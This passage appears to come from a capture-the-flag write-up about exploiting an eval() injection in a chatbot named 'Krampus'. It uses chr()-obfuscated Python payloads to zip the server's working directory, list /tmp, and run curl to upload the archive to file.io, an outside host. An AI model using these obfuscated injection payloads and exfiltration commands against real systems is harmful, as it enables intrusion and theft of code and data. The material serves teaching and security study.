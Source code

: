 Luckily, we can do so using a [Python one-liner `shutil.make_archive(output_filename, 'zip', dir_name)`](https://www.guru99.com/python-zip-file.html)

We have access to the /tmp/ directory, so let's place it there.

	# 'eval(' + krampus_string("__import__('shutil').make_archive('/tmp/derp3.zip','zip', '.')") + ')'
	
	'eval(chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)+chr(40)+chr(39)+chr(115)+chr(104)+chr(117)+chr(116)+chr(105)+chr(108)+chr(39)+chr(41)+chr(46)+chr(109)+chr(97)+chr(107)+chr(101)+chr(95)+chr(97)+chr(114)+chr(99)+chr(104)+chr(105)+chr(118)+chr(101)+chr(40)+chr(39)+chr(47)+chr(116)+chr(109)+chr(112)+chr(47)+chr(100)+chr(101)+chr(114)+chr(112)+chr(51)+chr(46)+chr(122)+chr(105)+chr(112)+chr(39)+chr(44)+chr(39)+chr(122)+chr(105)+chr(112)+chr(39)+chr(44)+chr(32)+chr(39)+chr(46)+chr(39)+chr(41))'

Okay so after a while, we can see the contents

	# 'eval(' + krampus_string("__import__('os').system('ls -lha ../tmp')") + ')'

	<You>: eval(chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)+chr(40)+chr(39)+chr(111)+chr(115)+chr(39)+chr(41)+chr(46)+chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)+chr(40)+chr(39)+chr(108)+chr(115)+chr(32)+chr(45)+chr(108)+chr(97)+chr(32)+chr(46)+chr(46)+chr(47)+chr(116)+chr(109)+chr(112)+chr(39)+chr(41))

	<Krampus>: total 58532
	drwxrwxrwt. 1 root   root       4096 Dec 22 10:54 .
	drwxr-xr-x. 1 root   root       4096 Dec 21 22:12 ..
	-rw-r--r--. 1 friend friend 29948023 Dec 22 10:49 derp3.zip.zip
	...

### Retrieve the folder - Upload online

Upload the file using https://file.io via command line

	# 'eval(' + krampus_string("__import__('os')
	  .system('curl -F file=@/tmp/derp3.zip.zip https://file.io > /tmp/out.txt')") + ')'

	'eval(chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)+chr(40)+chr(39)+chr(111)+chr(115)+chr(39)+chr(41)+chr(46)+chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)+chr(40)+chr(39)+chr(99)+chr(117)+chr(114)+chr(108)+chr(32)+chr(45)+chr(70)+chr(32)+chr(102)+chr(105)+chr(108)+chr(101)+chr(61)+chr(64)+chr(47)+chr(116)+chr(109)+chr(112)+chr(47)+chr(100)+chr(101)+chr(114)+chr(112)+chr(51)+chr(46)+chr(122)+chr(105)+chr(112)+chr(46)+chr(122)+chr(105)+chr(112)+chr(32)+chr(104)+chr(116)+chr(116)+chr(112)+chr(115)+chr(58)+chr(47)+chr(47)+chr(102)+chr(105)+chr(108)+chr(101)+chr(46)+chr(105)+chr(111)+chr(32)+chr(62)+chr(32)+chr(47)+chr(116)+chr(109)+chr(112)+chr(47)+chr(111)+chr(117)+chr(116)+chr(46)+chr(116)+chr(120)+chr(116)+chr(39)+chr(41))'

Then cat out the results

	# 'eval(' + krampus_string("__import__('os').system('cat /tmp/out.txt')") + ')'
